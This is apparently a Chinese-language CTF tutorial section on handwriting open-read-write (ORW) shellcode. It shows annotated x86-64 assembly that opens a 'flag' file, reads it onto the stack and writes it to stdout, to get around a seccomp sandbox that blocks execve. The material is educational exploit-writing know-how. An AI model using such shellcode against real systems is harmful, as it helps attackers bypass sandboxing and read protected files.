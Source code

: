 # 4、手写open，read，write的shellcode
遇见pwn题开启了沙箱保护的话，如果禁用了execve、system函数，但没有开启NX保护的话，可以采用orw的方式来读出flag。

首先我们要执行的如下的代码：

```python
open(flag_addr,0)
read(3,addr,0x50)#第一个参数是3，因为一个进程有默认的文件描述符0,1,2。当再打开新的文件之后，文件描述符就会以此类推的分配，因此上面open新打开的flag文件的文件描述符就是3
#至于这个addr，把读出来的flag放到哪，一会再说
write(1,addr,0x50)
```

接下来，就开始用汇编来实现上面的内容。

```assembly
open(flag_addr,0)
push 0x67616c66
push rsp
pop rdi
#上面这两步就是在传open的第一个参数，这个参数要是一个地址，这个地址要指向字符串'flag'
#执行完push 0x67616c66的时候，栈顶的内容就是字符串flag，而栈顶指针rsp就指向了这个flag，
#此时执行push rsp将指向flag的地址（也就是rsp）压栈，此时栈顶的内容就是那个指向flag的地址，然后再执行pop rdi
#将栈顶的这个内容弹给rdi，此时open的第一个参数就成为了指向flag的地址
push 0
pop rsi
push 2
pop rax
syscall

read(3,addr,0x50)
push 3
pop rdi
push rsp 
pop rsi
#上面这两步在完成read函数的第二个参数传参，此时压入栈的rsp，我并不知道这个地址是什么
#只知道把这个地址给rsi的话，flag就会被写到这个地址里面，至于这个地址是什么，真的不重要
#重要的是要保证接下来write的第二个参数也是这个地址即可，而我们要做的就是保证接下来的
#每一个push都要对应一个pop，这样栈顶始终就是给当初rsi的那个地址了。
push 0x50
pop rdx
push 0
pop rax
syscall

write(1,addr,0x50)
push 1
pop rdi
push rsp
pop rsi
#这个地方的push rsp pop rsi原理同上
push 0x50
pop rdx
push 1
pop rax
syscall

```
